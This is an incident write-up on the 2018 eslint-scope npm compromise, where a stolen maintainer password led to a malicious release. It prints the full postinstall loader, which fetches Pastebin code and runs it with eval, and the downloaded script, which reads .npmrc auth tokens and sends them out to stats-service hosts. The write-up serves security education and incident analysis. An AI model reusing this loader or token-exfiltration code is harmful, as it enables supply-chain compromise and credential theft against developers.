 ```yaml
---
description: >-
  An attacker has stolen an npm password of a maintainer of eslint-scope package
  and published a new version with malicious code inside.
---
```


# Eslint-scope

Issue Link: [https://github.com/eslint/eslint-scope/issues/39](https://github.com/eslint/eslint-scope/issues/39)

\
With the mass of security controls in place, malicious code rarely gets into codebase unnoticed. But when it does, it can lead to massive damage regardless if it gets into an open-source project or proprietary code.\
\
An excellent example of how a stolen password of a single developer can result in compromising accounts of several thousand other developers is the incident with the eslint-scope npm package from 2018.

In July 2018, the package had 2.5 million weekly downloads. In March 2020, the repo already has 17.5 million. Many extensively used packages use the eslint-scope package as a dependency, e.g., in March 2020, according to GitHub, 3.2 million other repos depend on this package.

### Attack

After stealing the password the attacker has added the following code to the package. It was executed in a post-installation script. This code loads a malicious script from Pastebin and executes it.

{% code title="PostScript.js" %}
```javascript
try {
  var https = require("https");
  https
    .get(
      {
        hostname: "pastebin.com",
        path: "/raw/XLeVP82h",
        headers: {
          "User-Agent":
            "Mozilla/5.0 (Windows NT 6.1; rv:52.0) Gecko/20100101 Firefox/52.0",
          Accept:
            "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
        }
      },
      r => {
        r.setEncoding("utf8");
        r.on("data", c => {
          eval(c);
        });
        r.on("error", () => {});
      }
    )
    .on("error", () => {});
} catch (e) {}
​
```
{% endcode %}

**The downloaded code from the Pastebin**\
The malicious script searches the filesystem for .npmrc files and extracts authentication tokens stored in these files. The tokens are then exfiltrated in the Referer HTTP header of the request to two website statistics applications.

{% code title="DownloadedScript.js" %}
```javascript
try {
  var path = require("path");
  var fs = require("fs");
  var npmrc = path.join(process.env.HOME || process.env.USERPROFILE, ".npmrc");
  var content = "nofile";
 
  if (fs.existsSync(npmrc)) {
    content = fs.readFileSync(npmrc, { encoding: "utf8" });
    content = content.replace("//registry.npmjs.org/:_authToken=", "").trim();
 
    var https1 = require("https");
    https1
      .get(
        {
          hostname: "sstatic1.histats.com",
          path: "/0.gif?4103075&101",
          method: "GET",
          headers: { Referer: "http://1.a/" + content }
        },
        () => {}
      )
      .on("error", () => {});
    https1
      .get(
        {
          hostname: "c.statcounter.com",
          path: "/11760461/0/7b5b9d71/1/",
          method: "GET",
          headers: { Referer: "http://2.b/" + content }
        },
        () => {}
      )
      .on("error", () => {});
  }
} catch (e) {}
```
{% endcode %}

### hacker's mistake

This edit could have gone unnoticed if the attacker wouldn’t have made a mistake and there was an issue in the code that led to the malicious code discovery.

**File: PostScript.js Line:17**

HTTP request and evaluation of its response work asynchronously; thus, HTTP request r may be still in progress, whereas eval(c) tries to evaluate an empty or partial response, which leads to an error. This error noticed by one of the package users initiated the investigation.

### Learning

In 2 hours the attacker has managed to gather about 4500 tokens. It's hard to conceive what the attacker could have done having the write access to even more heavily used repositories.\
No scanners can detect this malicious code because it's burrowed deeply in the dependencies that are rarely scanned.

ESLint and NPM teams swiftly reacted and in 2 hours unpublished the version with malicious code.

Afterward, they made sure that no one can install the malicious package ever again and revoked all the potentially compromised tokens. The investigation concluded that the attacker has likely used leaked credentials to log in to a maintainer’s npm account.

There is a single conclusion out of this:  **the code must be appropriately secured against tampering.** \
It doesn't matter if code is an open-source repo or code written for a company. It doesn't matter if a developer works in the office on the corporate laptop or remotely from a personal PC. Being careless while accessing the codebase may lead to unpredictable outcomes.\
